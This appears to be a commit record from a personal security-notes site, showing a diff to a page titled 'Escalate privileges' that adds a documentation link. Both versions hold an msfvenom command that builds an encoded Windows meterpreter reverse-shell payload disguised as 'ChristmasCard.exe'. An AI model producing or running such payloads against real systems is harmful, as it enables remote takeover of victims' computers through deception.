

Before and after one commit to digistam/digistam.github.io, a plain HTML site: page method/escalate_privileges.html in a window 1280 px wide. Shown: the top 253 px of the page, without its empty margins (0-1077 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update escalate_privileges.html

```diff
--- a/method/escalate_privileges.html
+++ b/method/escalate_privileges.html
@@ -5,7 +5,7 @@
 <h1>Escalate privileges</h1>
     <h2>Create malicious file</h2>
     <ol><p><ul>
-        msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=[MY IP ADDRESS] -f exe > /home/MyUsername/Desktop/ChristmasCard.exe
+        <a target=_blank href=https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html>msfvenom</a> -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=[MY IP ADDRESS] -f exe > /home/myusername/Desktop/ChristmasCard.exe
     </ul>
         <ul></ul>
     </p></ol>
```
